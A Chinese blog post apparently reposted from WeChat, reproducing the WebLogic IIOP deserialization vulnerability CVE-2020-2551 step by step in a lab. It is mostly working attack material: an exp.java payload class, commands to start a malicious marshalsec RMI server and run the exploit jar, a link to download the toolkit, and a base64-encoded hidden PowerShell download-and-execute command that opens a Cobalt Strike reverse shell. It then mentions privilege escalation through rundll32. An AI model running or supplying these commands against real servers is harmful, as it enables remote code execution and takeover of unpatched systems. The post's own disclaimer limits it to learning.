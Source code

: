 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/iXIdSm0G-2r2J1t-cmBskA)

Weblogic CVE-2020-2551 漏洞复现
===========================

Weblogic IIOP 反序列化

漏洞原理
----

https://www.anquanke.com/post/id/199227#h3-7 https://www.cnblogs.com/tr1ple/p/12483235.html

漏洞复现
----

Weblogic CVE-2020-2551 复现过程

靶机：windows7 系统 

IP 地址：192.168.43.20 

攻击机：windows10 系统

IP 地址：192.168.43.38

• 工具下载地址 https://pan.baidu.com/s/1N9oW3PtJJpkGC-W-LkgW9A 提取码：03vx

```
exp.java
marshalsec-0.0.3-SNAPSHOT-all.jar
weblogic_CVE_2020_2551.jar
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9Qb66ATunFYKC6mKEU6pHKS4hNXVE1YoSblUHfcVBUmuSPpb6DpZOrSGQ/640?wx_fmt=png)

*   exp.java 源代码
    

```
import java.io.IOException;
public class exp {
  static{
    try {
      java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","calc"});
    } catch (IOException e) {
      e.printStackTrace();
    }
  }
  public static void main(String[] args) {
    
  }
}
```

*   1、在 exp.java 中修改执行的命令，编译生成 exp.class
    

```
javac exp.java -source 1.6 -target 1.6
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9QbfJJcm6orUZScjxgfHqFBPRicTj9dyBfibG4e9ZdIE6gEDlCaDMVVxpng/640?wx_fmt=png)

*   2、用 python 启动一个 web 服务，需要与 exp.class 在同一文件夹
    

```
python -m SimpleHTTPServer 80
python3 -m http.server 80
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9QbicqnKCoQBwicnI5A8bt8yq79SQkhbSF4iacy3EIHstrTYibOxPVicHOGdWg/640?wx_fmt=png)

*   3、使用 marshalsec 起一个恶意的 RMI 服务
    

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.43.38/#exp" 1099
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9Qbt8Mic4nEQLuc0EA5eRY2E9uaPbZyChxbUHNLH7VuYiarkdajhib6Fa4mA/640?wx_fmt=png)

*   4、利用漏洞攻击使目标弹出计算器
    

```
java -jar weblogic_CVE_2020_2551.jar 192.168.43.20 7001 rmi://192.168.43.38:1099/exp
//java -jar weblogic_CVE_2020_2551.jar 靶机IP地址 靶机端口 RMI服务
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9QbLQ7fR58eavWroT5oTCictFQolV96sgbAOibXoyghoic0TiamkdALynqOdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9QbxyavQiaZbj7UVlNDbRAic8wYicVE1yqiabzw4EcjcuVapFnqqrDzwcZYFQ/640?wx_fmt=png)

Cobalt strike 工具实战利用
--------------------

**反弹 sehll**
------------

1、启动 cs 团队服务器、客户端，生成 powershell 运行后门命令

*   2、修改 powershell
    

Runtime.getRuntime().exec() 函数解决

http://www.jackson-t.ca/runtime-exec-payloads.html

详情见 Apache Shiro 反序列化漏洞复现（CVE-2016-4437）

https://www.cnblogs.com/renhaoblog/p/12971152.html

*   3、编写 exp.class 脚本
    

```
import java.io.IOException;
public class exp {
  static{
    try {
      java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAAIgBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADMALgAxADMAOAA6ADgAMAAvAGEAJwApACkAIgA="});
    } catch (IOException e) {
      e.printStackTrace();
    }
  }
  public static void main(String[] args) {
    
  }
}
```

•4、利用 weblogic CVE-2020-2551 漏洞反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9QbxickEczVgk4hKyj9eQpXb7jW4lucTKVUy38s0RQ7e5SAA1p9B7icfficg/640?wx_fmt=png)

rundll32.exe 提权
---------------

•1、遇到创建用户失败，利用 rundll32.exe 进行用户提权

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9QbjTU8QWFytwshwtOeIicx8PHBicFibHBWU4guDXTdX5m6kKxIJUg604L0Q/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9Qbg3OGSW4nWNcqOcqpticPyvDlE1ibk14N8eq7fGjuhibOJYzwr90HyUjOA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9QbE7aNUkHicnHV7LIgFnZibibcib2As9tO7pyJibN8z51uMzKaUv02IHywlbw/640?wx_fmt=png)

•2、用户创建成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicRn6mGXVe7pH8kag17J9Qb6MicDDAricWBrYEzAAGHc2wTvplPoGicoau2tlekGo5BQezSL66PeAYcw/640?wx_fmt=png)

参考链接
====

Weblogic CVE-2020-2551 复现

https://blog.csdn.net/weixin_44677409/article/details/106493733

声明
==

严禁读者利用以上介绍知识点对网站进行非法操作 , 本文仅用于技术交流和学习 , 如果您利用文章中介绍的知识对他人造成损失 , 后果由您自行承担 

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou80h6Jor7Py4sKIwfiaowozsMP0Yjn9RcoJAmPMKa5hQVczeXoDxIic2QaZYKKrLDlJFT5v6EpREmjg/640?wx_fmt=png)

**点赞，转发，在看**

原创投稿作者：renbao

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)